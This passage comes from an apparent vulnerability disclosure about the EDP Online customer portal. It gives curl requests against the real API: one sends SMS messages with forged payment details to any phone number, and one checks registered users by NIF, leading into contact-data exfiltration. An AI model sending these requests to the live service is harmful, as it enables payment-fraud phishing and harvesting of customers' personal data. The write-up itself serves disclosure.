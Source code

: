 This is pretty useful but unfortunately lacked a few validation checks, allowing an attacker to send forged data instead of the supposed payment details. The phone number wasn't validated either, meaning that you could send the aforementioned message to a recipient of your choosing.

When submitting the form, the following request was executed:

``` shell
curl -X POST \
  https://edponline.edp.pt/api/v2/contract/sendSMSPaymentReference \
  -H 'cookie: PHPSESSID=YOUR_SESSION' \
  -d '{
        "category": "contract",
        "operation": "sendSMSPaymentReference",
        "Body": {
          "ContractId": "YOUR_CONTRACT_ID",
          "Phone": "123456789",
          "Entity": "$Injected$",
          "Reference": "$Injected$",
          "Amount": "$Injected$",
          "LimitDate": "$Injected$"
        }
      }'
```

This sent an SMS message to `123456789` with the injected data. Note that the fields with `$Injected` could be different from each other and take any string.

{% include image.html path="edp/sms-result.png"
   alt="Received SMS." caption-no="6" caption="Received SMS." vertical=""
%}

A better approach would be to only send the payment record id when the user requests the SMS.


### Email & Phone Exfiltration via NIF

Outside the private account area, there are also interesting endpoints to tinker with. In this case, the various interconnected registration and password reset flows were flawed in several ways.

Take for example the following request:

``` shell
curl -X POST \
  https://edponline.edp.pt/api/v2/auth/register \
  -d '{
        "category": "auth",
        "operation": "register",
        "Body": {
          "Operation": "CheckUser",
          "Nif": "123456789",
        }
      }'
```

This is sent when a user attempts to register with a certain `NIF` (`123456789` in this case). If the `NIF` is already registered, the following page is presented to the user.
